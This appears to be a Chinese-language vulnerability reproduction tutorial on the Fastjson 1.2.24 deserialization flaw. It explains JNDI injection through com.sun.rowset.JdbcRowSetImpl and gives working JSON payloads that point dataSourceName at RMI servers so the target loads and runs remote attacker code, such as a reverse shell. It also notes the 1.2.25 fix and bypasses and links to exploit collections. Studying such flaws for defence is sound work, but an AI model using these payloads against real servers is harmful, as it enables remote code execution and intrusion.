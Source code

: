## **小于等于1.2.24版本**
请求包的请求体JSON字符会带有一个@type来标记其字符的原始类型，在反序列化的时候会读取这个@type，来把JSON内容反序列化成@type指定的对象，并且会调用这个对象的setter或者getter方法。
此时@type的类有可能被恶意构造，只需要合理构造一个JSON，使用@type指定一个想要的攻击类库就可以实现攻击。

常见的有sun官方提供的一个类com.sun.rowset.JdbcRowSetImpl，其中有个dataSourceName方法，在执行时会触发JNDI注入支持，传入一个rmi的源或ldap源，只要解析其中的url就会支持远程调用，
因此整个漏洞复现的原理过程就是：
```
1. 攻击者（我们）访问存在fastjson漏洞的目标靶机网站，通过burpsuite抓包改包，
以json格式添加com.sun.rowset.JdbcRowSetImpl恶意类信息发送给目标机。
2. 存在漏洞的靶机对json反序列化时候，会加载执行我们构造的恶意信息(访问rmi服务器)，
靶机服务器就会向rmi服务器请求待执行的命令。
也就是靶机服务器问rmi服务器，（靶机服务器）需要执行什么命令啊？
3. rmi 服务器请求加载远程机器的class（这个远程机器是我们搭建好的恶意站点，
提前将漏洞利用的代码编译得到.class文件，并上传至恶意站点），
得到攻击者（我们）构造好的命令（ping dnslog或者创建文件或者反弹shell等）
4. rmi将远程加载得到的class（恶意代码），作为响应返回给靶机服务器。
5. 靶机服务器执行了恶意代码，被攻击者成功利用。
```
```
{
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "rmi://47.109.58.205:1099/cpuw3a",
    "autoCommit":"true"
}

{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://192.168.43.14:6666/Object","autoCommit":true}
```
![](https://img-bc.icode.best/26de9fc36b2940c6882491c5453db571.png)



在 Fastjson1.2.25 中使用了 checkAutoType 来修复1.2.22-1.2.24中的漏洞，其中有个 autoTypeSupport 默认为 False。当 autoTypeSupport 为 False 时，先黑名单过滤，再白名单过滤，若白名单匹配上则直接加载该类，否则报错。当 autoTypeSupport 为 True 时，先白名单过滤，匹配成功即可加载该类，否则再黑名单过滤。对于开启或者不开启，都有相应的绕过方法。​

^
## **其他绕过和利用链**

<https://github.com/lemono0/FastJsonParty/blob/main/Fastjson%E5%85%A8%E7%89%88%E6%9C%AC%E6%A3%80%E6%B5%8B%E5%8F%8A%E5%88%A9%E7%94%A8-Poc.md>

<https://github.com/safe6Sec/Fastjson>

